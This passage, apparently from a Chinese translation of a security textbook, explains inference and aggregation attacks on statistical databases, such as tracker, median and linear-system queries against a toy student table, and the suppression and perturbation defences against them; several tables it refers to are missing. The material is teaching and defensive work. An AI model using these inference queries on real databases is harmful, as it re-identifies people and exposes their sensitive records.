更困难（也更有趣）的问题是：**数据库中*部分但非全部*元素是敏感的**。敏感程度可能各不相同。例如，大学数据库可能包含学生数据，由姓名、经济资助、宿舍、吸毒情况、性别、停车罚款和种族组成。表 7-6 展示了此类数据库的示例。姓名和宿舍可能敏感度最低；经济资助、停车罚款和吸毒情况敏感度最高；性别和种族介于两者之间。即，许多人可能有合法权限访问姓名，部分人可访问性别和种族，极少数人可访问经济资助、停车罚款或吸毒情况。事实上，某些字段（如吸毒情况）的存在本身可能就是敏感的。因此，安全关注的不仅是数据元素，还包括其上下文和含义。


**表 7-6** 示例数据库

此外，我们必须考虑不同程度的敏感性。例如，虽然所有字段都高度敏感，但经济资助、停车罚款和吸毒情况字段可能并不具有相同的访问限制类型。我们的安全需求可能要求：少数人被授权查看每个字段，但无人被授权同时查看这三个字段。访问控制问题的挑战在于限制用户访问权限，使其仅能获取其有合法权限访问的数据。或者换个角度说，访问控制问题要求我们确保敏感数据不被释放给未授权人员。

有几个因素会使数据变得敏感。


## 敏感数据的特征

* **固有敏感性**。数值本身可能极具揭示性，因而敏感。例如防御导弹的位置，或仅有一名理发师的城镇中理发师的中位收入。
* **源于敏感来源**。数据来源可能表明保密需求。例如来自线人的信息，若披露该信息会暴露线人身份。
* **声明敏感**。数据库管理员或数据所有者可能已声明数据为敏感。例如机密军事数据或匿名艺术品捐赠者姓名。
* **作为敏感属性或记录的一部分**。在数据库中，整个属性或记录可能被分类为敏感。例如人事数据库的`薪资`属性，或描述秘密太空任务的记录。
* **相对于先前披露的信息而敏感**。某些数据在存在其他数据时变得敏感。例如，秘密金矿的经度坐标单独泄露信息不大，但经度结合纬度坐标就能精确定位矿井。

确定数据敏感性时，必须考虑所有这些因素。

> **数据库通过控制对数据的直接或间接访问来保护敏感数据。**

## 泄露类型

我们都知道某些数据是敏感的。然而，有时甚至数据的特征也是敏感的。在本节中，我们将看到，即使是关于数据的描述性信息（如其存在性，或是否包含非零元素）也是一种泄露形式。

### 精确数据

最严重的泄露是敏感数据项**精确值**本身的泄露。用户可能知晓正在请求敏感数据，也可能在不知情的情况下请求包含敏感数据的通用数据。有缺陷的数据库管理器甚至可能意外泄露敏感数据，且无需用户请求。在所有这些情况下，结果相同：敏感数据的安全性已被破坏。

### 边界

另一种泄露是披露敏感值的**边界**，即表明敏感值 `y` 位于两个值 `L` 和 `H` 之间。有时，用户可使用类似二分查找的收敛技术，先确定 `L ≤ y ≤ H`，再判断 `L ≤ y ≤ H/2`，以此类推，从而以任意所需精度确定 `y`。在另一种情况下，仅揭示运动奖学金预算或中情局特工数量超过特定数额，就可能构成严重的安全漏洞。

然而，有时边界是呈现敏感数据的有用方式。在不识别具体记录的情况下发布数据的上下界是常见做法。例如，公司可能宣布其程序员薪资范围为 50,000 美元至 82,000 美元。如果你是一名年薪 79,700 美元的程序员，你会认为自己待遇不错，从而获得想要的信息；但该公告并未泄露薪资最高和最低的程序员是谁。

### 负面结果

有时我们可以通过措辞查询来确定**负面结果**。即，我们可以得知 `z` *不是* `y` 的值。例如，得知某人重罪定罪总数不为 0，即可推断该人曾因重罪被定罪。1 与 2 或 46 与 47 个重罪的区别，不如 0 与 1 的区别敏感。因此，披露某值不为 0 可能构成重大泄露。同样，若学生未出现在荣誉榜上，你可推断其绩点低于 3.50。但此信息揭示性不强，因为 0.0 至 3.49 的绩点范围相当宽泛。

### 存在性

在某些情况下，**数据的存在性**本身就是敏感数据，与实际值无关。例如，雇主可能不愿员工知晓其电话使用受到监控。此时，在人事档案中发现`NUMBER OF PERSONAL TELEPHONE CALLS`字段就会泄露敏感数据。

### 可能值

最后，可能确定某元素具有特定值的概率。举例说明：假设你想查明美国总统是否注册为托利党成员。已知总统在数据库中，你向数据库提交两个查询：

> **数据库管理员可以控制对直接查询的访问；但泄露可能以更微妙的方式发生，这些方式更难控制。**

单击此处查看代码图像

```
Count(Residence="1600 Pennsylvania Avenue") = 4
Count(Residence="1600 Pennsylvania Avenue" AND Tory=TRUE) = 1
```

通过这些查询，你得出结论：总统是托利党注册党员的可能性为 25%。

## 直接推理

**推理** 是从非敏感数据中推断或导出敏感数据的一种方式。推理问题是数据库安全中一个微妙的漏洞。

表 7-7 中的数据库说明了推理问题；该数据库的形式与表 7-6 中引入的数据库相同，但我们添加了更多数据以阐述与多个数据项相关的要点。回想一下，`AID` 是学生获得的经济资助金额。`FINES` 是仍欠缴的停车罚款金额。`DRUGS` 是吸毒情况调查的结果：0 表示从未使用，3 表示频繁使用者。显然，这些信息应保密。我们假设 `AID`、`FINES` 和 `DRUGS` 是敏感字段，尽管仅当这些值与特定个人相关时才敏感。在本节中，我们将探讨从数据库中确定敏感数据值的方法。


**表 7-7** 用于说明推理的数据库

### 直接攻击

在**直接攻击**中，用户试图通过直接查询来确定敏感字段的值，这些查询仅返回少量记录。最成功的技术是构建一个非常具体的查询，使其精确匹配某一个数据项。

在表 7-7 中，一个敏感查询可能是

```
List NAME where
    SEX=M ∧ DRUGS=1
```

该查询泄露了记录 `ADAMS` 的 `DRUGS=1`。然而，这是一个显而易见的攻击，因为它选择了 `DRUGS=1` 的人，DBMS 可能会因为该查询选择了敏感属性 `DRUGS` 的特定值的记录而拒绝执行。

一个不那么明显的查询是

单击此处查看代码图像

```
List NAME where
    (SEX=M ∧ DRUGS=1) ∨
    (SEX=M ∧ SEX=F) ∨
    (DORM=AYRES)
```

表面上看，该查询似乎通过同时选择其他非药物相关记录来隐瞒药物使用情况。然而，该查询仍然仅检索一条记录，揭示了与敏感 `DRUG` 值对应的姓名。DBMS 需要知道 `SEX` 只有两个可能的值，以便第二个子句不会选择任何记录。即使这是可能的，DBMS 还需要知道不存在 `DORM=AYRES` 的记录，尽管 `AYRES` 实际上可能是 `DORM` 的一个可接受值。

### 算术推理

另一种程序，被美国人口普查局和其他收集敏感数据的组织使用，是仅发布统计数据。这些组织会隐藏个人姓名、地址或其他可用于识别单个个体的特征。仅发布中性统计数据，如计数、求和和平均值。

间接攻击旨在基于一个或多个中间统计结果推断最终结果。但这种方法需要在数据库之外进行工作。特别是，统计攻击试图利用某些表面上匿名的统计度量来推断个人数据。在以下各节中，我们将展示几个针对报告统计数据的数据库的间接攻击示例。

#### 求和

**求和**攻击试图从报告的总和中推断数值。例如，对于表 7-7 中的示例数据库，按性别和宿舍报告学生资助总额似乎是安全的。这种报告如表 7-8 所示。这个看似无害的报告揭示了住在 Grey 宿舍的女生没有人获得经济资助。因此，我们可以推断住在 Grey 宿舍的任何女生（如 `Liu`）肯定没有获得经济资助。这种方法通常允许我们确定否定结果。


**表 7-8** 显示否定结果的表

#### 计数

**计数** 可以与求和结合，产生更具揭示性的结果。通常会为数据库发布这两个统计数据，以便用户确定平均值。（反之，如果发布计数和平均值，则可以推导出求和。）

表 7-9 显示了按宿舍和性别划分的学生记录计数。该表本身无害。然而，结合求和表，它表明住在 Holmes 和 West 宿舍的两名男生分别获得了 5000 美元和 4000 美元的经济资助。我们可以通过选择 `NAME`、`DORM` 的子模式来获取姓名，这不敏感，因为它仅提供整个数据库的低安全性数据。


**表 7-9** 从计数和求和结果中推理

#### 平均值

算术**平均值**如果攻击者能操纵主体总体，则允许精确泄露。作为一个简单的例子，考虑薪资。给定员工人数、公司的平均薪资以及除总裁外所有员工的平均薪资，很容易计算出总裁的薪资。

#### 中位数

通过稍微复杂一些的过程，我们可以从**中位数**（有序值列表的中点）中确定个体数值。该攻击要求找到恰好位于中间的一个交点的选择，如图 7-3 所示。


**图 7-3** 相交的中位数

例如，在我们的示例数据库中，有五名男性和三名药物使用值为 2 的人。按资助金额排序，这些列表如表 7-10 所示。请注意，`Majors` 是两个列表中唯一的共同名字，且方便地位于每个列表的中间。卫生诊所的工作人员可能会发现 `Majors` 是一名药物使用评分为 2 的白人男性。该信息将 `Majors` 确定为这两个列表的交集，并精确定位了 `Majors` 的经济资助金额为 2000 美元。在该示例中，查询

单击此处查看代码图像

```
q = median(AID where SEX = M)
p = median(AID where DRUGS = 2)
```


**表 7-10** 药物使用和资助结果

揭示了 `Majors` 的确切经济资助金额。

#### 追踪器攻击

如前所述，当少量条目构成所揭示数据的大部分时，数据库管理系统可能会隐藏数据。**追踪器攻击** 可以通过使用产生少量结果的额外查询，欺骗数据库管理员定位所需数据。追踪器为两个不同的查询添加额外的待检索记录；这两组记录相互抵消，仅留下所需的统计数据或数据。该方法是使用智能填充两个查询。换句话说，我们不尝试识别唯一值，而是请求其他 `n`–1 个值（其中数据库中有 `n` 个值）。给定 `n` 和 `n`–1，我们可以轻松计算出所需的单个元素。

例如，假设我们想知道有多少白人女性住在 Holmes 宿舍。可能的查询是

单击此处查看代码图像

```
count ((SEX=F) ∧ (RACE=C) ∧ (DORM=Holmes))
```

数据库管理系统可能会查询数据库，发现答案是 1，并阻止对该查询的回答，因为一条记录主导了查询结果。然而，对查询的进一步分析允许我们通过非敏感查询追踪敏感数据。

查询

单击此处查看代码图像

```
q=count((SEX=F) ∧ (RACE=C) ∧ (DORM=Holmes))
```

形式为

```
q = count(a ∧ b ∧ c)
```

通过使用逻辑和代数规则，我们可以将此查询转换为

单击此处查看代码图像

`q = count(a ∧ b ∧ c) = count(a) - count(a ∧ ¬ (b ∧ c))`

因此，原始查询等同于

`count (SEX=F)`

减去

单击此处查看代码图像

`count ((SEX=F) ∧ ((RACE≠C) ∨ (DORM≠Holmes)))`

因为 `count(a) = 6` 且 `count(a ∧ ¬(b ∧ c)) = 5`，我们可以轻松确定被抑制的值：6 – 5 = 1。此外，6 和 5 都不是敏感计数。

### 线性系统漏洞

追踪器是更通用漏洞的一个特例。凭借一点逻辑、代数以及数据库内容分布上的运气，可能构建一个代数**线性方程组**，返回与多个不同集合相关的结果。例如，以下包含五个查询的系统并未显式泄露数据库中任何单个 `c` 值。然而，这些查询的方程可以求解出每个未知的 `c` 值，从而全部揭示它们。


要了解其原理，请运用基础代数注意到 `q[1] – q[2] = c[3] + c[5]`，以及 `q[3] – q[4] = c[3] – c[5]`。然后，将这两个方程相减，可得 `c[5] = ((q[1] – q[2]) – (q[3] – q[4]))/2`。一旦我们知道了 `c[5]`，就可以推导出其他值。

事实上，这种攻击也可用于获取*除*数值*之外*的结果。回想一下，我们可以将逻辑规则应用于*与* (`∧`) 和*或* (`∨`)，即数据库查询的典型运算符，从而从一系列逻辑表达式中推导出值。例如，每个表达式可能代表一个请求精确数据而非计数的查询，如方程所示：

`q[1] = s[1] ∨ s[2] s[3] ∨ s[4] ∨ s[5]`

> **推理难以控制，因为它可能发生在数据库管理系统范围之外的代数计算中。**

查询的结果是一组记录。以类似于我们数值示例的方式使用逻辑和集合代数，我们可以仔细确定每个 `s[i]` 的实际值。

## 聚合

与推理问题相关的是**聚合**，即从敏感度较低的输入中构建敏感结果。我们之前看到，仅知道金矿的纬度或经度对你毫无用处。但如果你同时知道纬度和经度，就能精确定位矿藏。对于一个更现实的例子，考虑警方在破案时如何频繁使用聚合：他们确定谁有作案动机、案发时间、谁在该时间段有不在场证明、谁具备作案技能，等等。通常，你会认为警方调查是从全体人口入手，逐步缩小分析范围直到锁定单个人。但如果警官们并行工作，一人可能掌握嫌疑人名单，另一人掌握有动机者名单，第三人掌握有能力者名单。当这些名单的交集仅剩一人时，警方就找到了主要嫌疑人。

聚合正成为一项规模巨大、利润丰厚的业务，详见侧边栏 7-3。解决聚合问题很困难，因为它要求数据库管理系统跟踪每个用户已接收的结果，并隐藏任何可能让用户推导出更敏感结果的结果。聚合尤其难以防范，因为它可能发生在系统之外。例如，假设安全策略规定任何人可以获得金矿的*纬度或经度*之一，但不能两者兼得。没有任何机制能阻止你获取其中一个、你的朋友获取另一个，然后你们俩互相交流。

### 侧边栏 7-3 他们知道什么

《华尔街日报》的两位记者 Emily Steel 和 Geoffrey Fowler 调查了在线社交媒体应用（特别是 Facebook）的数据收集和分发情况 [STE10]。他们发现，尽管 Facebook 拥有明确且强有力的隐私政策，但未能严格执行该政策，以约束提供给 Facebook 用户的 500,000 多个应用程序，包括那些将个人资料设为 Facebook 最严格隐私设置的用户。根据该研究，截至 2010 年 10 月，应用程序将用户的唯一 ID 号（可轻松转换为姓名）传输给数十家广告和互联网追踪公司。调查人员发现，十大最热门应用程序均将这些数据传输给了外部公司。

尽管追踪是匿名进行的——仅凭 ID 号——但将号码转换为姓名的能力允许追踪公司将来自 Facebook 的数据与来自其他来源的数据结合，出售给广告商和其他方。无论用户个人资料其余部分的隐私设置如何，Facebook 用户的姓名始终是公开的；如果用户将个人资料的其他方面（如地址或出生日期）设为公开，这些数据也可能被纳入正在编制的档案中。

Facebook 广告是大生意：在 2013 财年，Facebook 报告收入约 18 亿美元，拥有 100 万广告商客户。涉及如此巨额资金，不难理解为何其他广告商和数据分析师渴望获取 Facebook 用户数据。

> **聚合几乎不可能由数据库管理系统控制，因为数据组合可能发生在系统之外，甚至由多个串通用户完成。**

### 数据分析

正如我们刚才所述，攻击者拥有时间和算力来分析数据。正如我们所展示的，关联看似无关的信息片段有助于构建更大的图景。甚至所谓的匿名化数据也可能泄露隐私，详见侧边栏 7-4。

### 隐藏数据属性

图片只是图片，文档只是文档，对吧？在数字时代并非完全如此。图片、音乐文件和文档等对象实际上是具有**属性**的复杂数据结构，这些属性为数据增加了含义。这些属性被称为**元数据**，它们不随图片或文档显示，但并未隐藏；事实上，许多应用程序支持基于元数据进行选择、搜索、排序和编辑。

#### 侧边栏 7-4 4417749 号是谁？

为了让研究人员拥有一个庞大的实际查询数据库进行分析，AOL 于 2006 年决定发布来自 650,000 多名用户长达三个月的搜索查询记录。虽然未透露搜索者的身份，但 AOL 确实为每位搜索者分配了一个唯一的数字 ID，以便研究人员关联来自同一人的多个查询。

据《纽约时报》报道 [BAR06]，在短时间内，博主们推断出 4417749 号是一位名为 Thelma Arnold 的女性，居住在佐治亚州的一个小镇。从她的查询中，研究人员推断她在寻找园艺师、养了一条狗，并有意前往意大利旅行。暴露其完整身份的是，她搜索了多位姓 Arnold 的人以及佐治亚州 Gwinnett 县 Shadow Lake 分区的商家。官方记录显示，该县仅有一人姓 Arnold。

研究人员还在 AOL 将数据库下线之前，从搜索记录中识别出了其他几个人。正如这个例子所示，即使是匿名化的数据也可能暴露真实身份。

利用另一种形式的关联，Sweeney [SWE04] 报告了一个查找人名列表的项目。跨列表关联名字生成了匹配名字的概况：他们居住、工作或上学的地点、所属的组织以及支持的事业。单个数据项的组合可以产生复杂、多面的传记素描。

---

### 文件标签

属性的一个用途是为图片打标签。您可能会用标签来整理照片收藏，标明每张照片中有谁或什么地标。因此，您可以搜索所有包含 Zane Wellman 的照片，或您去斯德哥尔摩旅行的照片。然而，这种标记有时会泄露超出预期的信息。假设您和 Zane 合影的照片拍于一个相当尴尬的夜晚外出时，且显得他很不体面。如果照片在没有文字描述的情况下发布，只有认识 Zane 的人才能看到图像并知道那是他。但当 Zane 申请工作，公司进行网络搜索以了解关于他的任何信息时，这张照片会弹出来，因为他的名字在元数据中。这张照片可能引发疑问；Zane 甚至可能不知道您发布了这张照片，所以他可能会震惊地发现潜在雇主看到了他那种情形下的样子。

正如我们在 第 9 章 中所述，这个问题的一部分在于私密与公开的界限变得不再清晰。对于纸质照片，您有一份，Zane 可能有一份，也许几个亲密朋友也有。你们都把照片放在相册、旧鞋盒或纪念品抽屉里。Zane 甚至可能看过这张照片并大笑，然后匆忙把它扔掉。除非他潜在的雇主异常彻底，否则纸质照片永远不会成为他们搜索的一部分。然而现在，随着 Facebook、Picasa、Dropbox 和数百个分享网站的出现，原本只打算给几个亲密朋友看的照片可能出现在任何人的搜索结果中。用户没有足够严格地限制访问权限，而有限的访问权限不符合社交网站的利益（它们从广告中获得可观收入，因此更有兴趣支持其广告客户，而非人类用户）。


文档也存在类似情况。每个文档都有属性，包括作者姓名、作者组织、创建日期、最后保存日期等。如果您正在准备一份用于匿名分发的文档，例如提交会议匿名评审的论文，您不希望评审人能得知您是作者。

### 地理标记

2010 年 8 月 11 日，《纽约时报》发表了一篇关于**地理标记**的报道，即许多相机和智能手机会在拍摄的每张照片上打上拍摄地点的 GPS 坐标。据报道，*Myth Busters*（《流言终结者》）节目主持人 Adam Savage 在自家房前拍了一张他的车的照片并发布到他的 Twitter 账号。然而，因为照片包含位置坐标，Savage 无意中泄露了他家的位置。通过相对较少的工作，任何人都可以提取这些元数据进行离线分析。

研究地理标记问题的 Friedland 和 Sommer [FRI10] 指出，许多人不知道这一现象的存在，即使在知道地理标记的人中，有些人也没有意识到它何时发生。据作者称，Flickr、YouTube 和 Craigslist 等网站上 1% 到 5% 的照片包含给出拍摄地点的头部数据。Friedland 和 Sommer 推测，这些数字之所以偏低，只是因为一些照片编辑应用程序会自动删除或替换元数据。这些研究人员指出了窃贼、绑架者或其他恶人滥用这些数据的可能性。

### 追踪设备

有些显而易见但仍经常被忽视的是我们随身携带的电子设备。手机不断搜索附近的基站，用于交通或身份识别的 RFID 标签可被现成的设备读取，GPS 导航设备既发送也接收位置数据。虽然我们出于良好目的使用这些技术，但我们需要意识到，它们可被用来构建我们全天行踪的相对完整轨迹。电子前哨基金会 [BLU09] 研究了这个问题，并推荐了（除其他对策外）一些创新的加密协议，允许这些位置数据交换匿名进行。

元数据的问题在于，它对对象的所有者并不明显，但结构良好，且可供任何想使用它的人轻松获取。一种解决方案是不收集数据，但目前这些数据内置在许多设备中，如相机，而其他设备如手机需要此类数据才能运行。对这些敏感位置数据实施适当的访问控制固然好，但太多产品和应用程序在构建时未考虑安全性；此时引入安全需求基本上是不可能的。我们所能期望的最好结果，可能是获取敏感数据的 Web 应用程序（如 YouTube、Flickr、Picasa 和 Google Docs）在接收数据时并显示前，将此类数据过滤掉。

---

**数据追踪可能发生在用户或所有者甚至不知道存在的数据上。**

---

在下一节中，我们将探讨解决单一和多数据库中关联这一更普遍的数据推理问题的方法。

#### 防止泄露：数据抑制和修改

推理和聚合问题没有完美的解决方案。控制它的方法遵循以下三条路径。前两种方法可用于限制接受的查询，或限制响应查询提供的数据。最后一种方法仅适用于发布的数据。

* **抑制明显敏感的信息**。此操作可以相当容易地进行。倾向于采取抑制措施，从而限制数据库的实用性。

* **追踪用户所知**。虽然可能带来最大程度的安全披露，但这种方法成本极高。必须维护所有用户的信息，即使大多数用户并不试图获取敏感数据。此外，这种方法很少考虑任意两个人可能共同知道的信息，也无法解决单个用户通过使用多个 ID 所能完成的事情。

* **伪装数据**。随机扰动和四舍五入可以抑制依赖精确值进行逻辑和代数操作的统计攻击。数据库用户收到的结果略有不正确或可能不一致。

研究不太可能揭示出一种简单、易于应用的度量标准，以准确确定哪些数据可以在不泄露敏感数据的情况下公开。

尽管如此，对推理问题的有效控制仅仅是知道它的存在。一如既往，认识到问题有助于理解控制它的必要性，并意识到它可能造成的潜在困难。然而，仅仅知道可能的数据库攻击并不一定意味着人们会防范这些攻击。值得注意的是，关于数据库推理的大量研究是在 1980 年代初完成的，但推理的隐私方面仍 largely unchecked（基本未受检查/未被遏制）。

#### 数据库安全

Denning 和 Schlörer [[DEN83]](#bib01.html#bib_149) 调查了维护数据库安全的技术。所有统计攻击的控制措施都是相似的。从本质上讲，防范推理攻击有两种途径：要么对查询实施控制，要么对数据库内的单个数据项实施控制。正如我们所见，很难判断给定的查询是否会泄露敏感数据。因此，查询控制主要只对直接攻击有效。

抑制和隐藏是应用于数据项的两种控制措施。采用**抑制**时，敏感数据值不会被提供；查询会被直接拒绝，不予响应。采用**隐藏**时，答案*接近*但不完全等于实际值。

***

**数据抑制阻止敏感数据的发布；数据隐藏发布部分或近似的敏感数据。**

***

这两种控制措施反映了安全性与精确性之间的对比。采用抑制时，给出的任何结果都是正确的，但为了维护安全，必须扣留许多响应。采用隐藏时，可以给出更多结果，但其精确度较低。在抑制和隐藏之间的选择取决于数据库的上下文环境。

##### 安全性与精确性

我们的示例说明了确定哪些数据敏感以及如何保护它们是多么困难。共享非敏感数据的愿望使情况更加复杂。出于保密原因，我们只想披露那些非敏感的数据。这种观点鼓励在确定披露什么数据时采取保守哲学：少披露总比多披露好。

另一方面，考虑数据的用户。保守哲学建议拒绝任何涉及敏感字段的查询。这样我们可能会拒绝许多合理且不泄密的查询。例如，研究人员可能想要一份使用药物的所有学生的成绩单，或者统计学家可能请求所有男性和所有女性的薪资清单。这些查询很可能不会泄露任何个人的身份。我们希望尽可能多地披露数据，以便数据库用户能够访问他们所需的数据。这一目标被称为**精确性**，旨在保护所有敏感数据的同时，尽可能多地揭示非敏感数据。

我们可以用同心圆来描绘安全性与精确性之间的关系。正如图 7-4 所示，中心圆内的敏感数据应被仔细隐藏。外层带代表我们愿意响应查询而披露的数据。但我们知道用户可能拼凑披露的数据片段，从而推断出其他更深层隐藏的数据。该图表明，在外层之下可能还有更多用户无法推断出的非敏感数据。


**图 7-4** 安全性与精确性

安全性与精确性的理想结合使我们能够在保持完美保密性的同时实现最大精确性；换句话说，我们披露所有且仅披露非敏感数据。但正如下一节所示，实现这一目标并不像看起来那么容易。专栏 7-5 给出了一个使用不精确技术来提高准确性的示例。在下一节中，我们将探讨如何从看似无害的查询中获取敏感数据。

***

##### 专栏 7-5 准确性与不精确性

美国宪法第一条赋予国会确定“……自由人的各自数目……以及所有其他人的数目……在每个……十年期限内”的职责。此项统计用于许多方面，包括分配国会众议员名额和向各州公平分配资金。这项任务在 1787 年就已很艰巨，如今变得越来越具挑战性。统计不能仅基于住所进行，因为那样会遗漏一些无家可归者。仅靠发放问卷让每个人填写并寄回也无法获得公平的统计，因为有些人不识字，更重要的是，许多人根本不寄回此类表格。而且表格在邮寄过程中丢失的可能性始终存在。对于 2000 年人口普查，美国人口普查局提议使用统计抽样和估算技术来估算人口数量。通过这些技术，他们会选定某些地区进行两次统计：第一次是常规统计，第二次是对该地区每位居民进行特别细致的搜查。这样，该局就能确定“漏报数”，即常规统计中遗漏的人数。然后，他们可以利用这个漏报因子来调整其他类似地区的常规统计数字，从而获得一个更准确、尽管精确度较低的统计结果。

美国最高法院裁定，统计抽样技术可用于确定向各州分配税收，但不可用于分配国会众议员名额。因此，人口普查永远无法获得美国甚至美国主要城市的确切、准确的人口数量。同时，对精确性和隐私的担忧阻止人口普查局发布关于美国任何特定个人的信息。

这种缺乏准确性和精确性意味着人口普查没有用吗？不是。我们可能不知道华盛顿特区的确切人口数量，也不知道某位特定居民的确切信息，但我们可以利用普查信息来描述华盛顿特区的大多数居民。例如，我们可以确定被调查人群的最大、最小、平均和中位数年龄或收入，并可以研究特征之间的关系，如受教育程度与收入的关系。研究人员非常清楚普查数据略有不准确。此外，通过了解未被调查人群的类型，研究人员可以理解某些误差的方向。（例如，如果失业人员在结果中代表性不足，平均收入可能会偏高。）因此，准确性和精确性有助于反映保护与知情需求之间的平衡。

***

##### 统计抑制

由于获取数据的攻击利用了统计学的特性，统计学也能为应对这些攻击提供一些线索，这或许并不令人惊讶。

###### 有限响应抑制

**有限响应抑制** 会消除某些低频元素的显示。然而，如果它们的值也能被推断出来，仅仅删除它们是不够的。为了理解原因，请参考表 7-11，该表显示了按宿舍和性别划分的学生人数。


**表 7-11** 按宿舍和性别划分的学生人数

该表中的数据表明，计数为 1 的单元格应被抑制；它们的计数过于敏感。但抑制“男性-霍尔姆斯”单元格毫无作用，因为可以用总数 (3) 减去“女性-霍尔姆斯” (2) 来得出 1，如表 7-12 所示。


**表 7-12** 利用减法推导被抑制的单元格

当在一个包含行和列总计的表格中抑制一个单元格时，为了迷惑窥探者，有必要在该行和该列上至少再各抑制一个单元格。根据这个逻辑，在这个小样本表格中，所有单元格（总计除外）都必须被抑制。当不显示总计时，可以抑制行或列中的单个单元格。

###### 组合结果

另一种控制方法是组合行或列以保护敏感值。例如，表 7-13 显示了几个识别出单个个体的敏感结果。（即使这些计数看起来可能不敏感，但有人可能利用它们推断出诸如 `NAME` 之类的敏感数据；因此，我们将它们视为敏感数据。）


**表 7-13** 组合值以推导敏感结果

这些计数与其他结果（如总和）相结合，使我们能够推断出三名男性的个人药物使用值，并推断出没有女性被评为 3 级药物使用。为抑制此类敏感信息，可以将属性值 0 和 1 合并，以及将 2 和 3 合并，从而产生表 7-14 所示的敏感度较低的结果。在这种情况下，无法识别任何单个值。


**表 7-14** 组合值以抑制敏感数据

组合结果的另一种方法是以**范围**呈现值。例如，不发布确切的经济援助数字，而是发布 `$0–1999`、`$2000–3999` 和 `$4000` 及以上范围的结果。即使只有一条记录由单个结果表示，该记录的确切值也是未知的。同样，最高和最低的经济援助值也被隐藏了。

另一种组合方法是**舍入**。这种技术实际上是按范围组合的一个相当著名的例子。如果数字四舍五入到最接近的 10 的倍数，有效范围就是 0–5、6–15、16–25，依此类推。实际值向上或向下舍入到最接近的某个基数的倍数。

###### 随机样本

采用**随机样本**控制时，结果不是从整个数据库得出的；而是在数据库的随机样本上计算得出。所选样本足够大以保证有效性。因为样本不是整个数据库，针对该样本的查询不一定会与整个数据库的结果匹配。因此，某个特定查询 5% 的结果意味着，为此查询选取的样本中有 5% 的记录具有所需属性。你会预期整个数据库中大约有 5% 具有该属性，但实际百分比可能差异很大。

为防止通过重复的等价查询进行平均攻击，应为等价查询选择相同的样本集。这样，所有等价查询将产生相同的结果，尽管该结果仅是整个数据库的近似值。

##### 隐藏

聚合不一定直接威胁隐私。聚合值（如总和、中位数或计数）通常依赖于许多数据项，因此任何单个贡献项的敏感性都被隐藏了。政府统计数据说明了这一点：人口普查数据、劳工统计和学校成绩显示了群体（如社区或学区）的趋势和模式，但不侵犯任何单个人的隐私。

###### 阻止小样本量

发布个人统计数据的组织（如美国人口普查局）在少数人构成某类别的大部分比例时，不会公布结果。“*n* 项超过 *k* 百分比”规则意味着，如果 *n* 项代表报告结果的 *k* 百分比以上，则应扣留数据。在前一种情况下，被选中的那一个人代表了报告数据的 100%，因此关于哪个人匹配查询不会有任何歧义。

正如我们所解释的，推理和聚合攻击在分布的两端附近效果更好。如果数据库子集中只有极少或极多的数据点，少量的方程式可能就会泄露私有数据。单个数据值的平均值就是该值本身。有三个数据值时，每对的平均值产生三个含三个未知数的方程，正如你所知，这可以用线性代数轻松求解。类似的方法适用于非常大的子集，例如 `n – 3` 个值。中等大小的子集能很好地保护隐私。因此，通过 *n* 项超过 *k* 百分比的规则来维护隐私。

###### 随机数据扰动

有时通过微小误差**扰动**数据库的值很有用。对于数据库中数据项 *i* 的真实值 *x*[i]，我们可以生成一个微小的随机误差项 ε[i] 并将其加到 *x*[i] 上以用于统计结果。ε 值既有正也有负，因此一些报告值会略高于其真实值，而另一些报告值会略低。总和和平均值等统计度量将接近但不一定精确。数据扰动比随机样本选择更易于使用，因为存储所有 ε 值以便为等价查询产生相同结果更容易。

数据扰动也适用于聚合。通过扰动，你向每个数据值添加一个微小的正或负误差项。Agrawal 和 Srikant [AGR00] 表明，给定扰动后的数据分布和添加误差的分布，研究人员可以确定底层数据的分布（**不是**值）。底层分布通常是研究人员想要的。这一结果表明，数据扰动可以在不牺牲结果准确性的情况下帮助保护隐私。

###### 交换

相关性涉及在公共字段上连接数据库。因此，侧边栏 7-4 中 AOL 查询的 ID 号让研究人员能够组合查询以推导出一位用户的姓名和家乡。这种连接或链接的行为允许研究人员通过推理得出结论。

为应对这种链接，一些数据库管理员会随机扰动数据。Bailey 和 Chin 的性别可能会互换，Dewitt 和 Earhart 的种族也可能互换。具有这些值的个体计数仍然是正确的。所有男性的总援助金额会略有偏差。在这个微小的例子中，这些变化可能会显著影响结果。然而，如果我们拥有更大的数据库并仅执行少量交换，大多数统计数据将接近真实值，对于大多数分析目的可能已经足够接近。可以警告研究人员，为保护机密性，某些精确数据可能会受损。研究人员可能会得出 Adams 接收 5000 援助的结论，但由于数据交换，无法确定该结论是否准确。

因此，交换与扰动一样，可能是在数据准确性和披露之间的合理折衷。我们将在第 9 章中作为隐私考量更详细地探讨此主题。

##### 查询分析

一种更复杂的安全形式使用查询分析。在此，分析查询及其含义以确定是否应提供结果。如前所述，查询分析可能非常困难。一种方法涉及为每个用户维护查询历史，并根据之前结果可能的推断来判断查询。

我们介绍了一些数据库管理系统平衡使用和访问控制的技术。在其他领域（如操作系统）中，访问控制是二元的：要么授予对象访问权，要么拒绝。然而，数据库管理系统试图采取更细致的方法；严格的是/否方法会导致要么极度限制访问（如果一百万条记录中有一条敏感记录，可能会阻止对整个数据库的访问），要么极度宽松访问（尽管存在推理或聚合的可能性，仍允许访问）。因此，数据库管理系统及其管理员试图寻找一个合理的中间地带。

接下来我们将转向数据库在所谓的数据挖掘和大数据中的应用。

## 7.5 数据挖掘和大数据

### 数据挖掘与大数据

在最后这一节中，我们将探讨两个相关主题。第一个是数据挖掘，它涉及人员和程序对数据集进行搜索和筛选以获取数据。是的，你可能会反驳，这正是数据库的用途，也是我们在本章其余部分一直在探讨的内容。然而，数据挖掘意味着搜索先前未知甚至不可预测的模式和关联。你知道左撇子更喜欢煎蛋而不是水煮蛋吗？（我们不知道这是否属实。）一支拥有包含惯用手和鸡蛋偏好数据库的研究团队，可以通过数据挖掘的神奇功效发现这一关联以及其他令人惊叹的统计相关性。数据挖掘社区在很大程度上未考虑安全性便发展壮大，因此我们列出了一些亟待考虑的安全问题。

数据挖掘与大数据的概念密切相关，后者涉及海量数据的收集，这些数据通常并非旨在作为数据库或按此结构化。重点在于“大”字，例如搜索引擎的所有索引条目集合。当搜索引擎报告有 1700 万个页面回答你的查询时，它很可能确实有那么多，尽管第 1700 万个链接的实用性可能不高。我们大多数人在前几个结果中就能找到想要的内容，或者得出结论认为查询未能获得想要的结果，从而换个问题再问一次。

在下一节中，我们将深入探讨数据挖掘和大数据，并指出两者的安全层面。

#### 数据挖掘

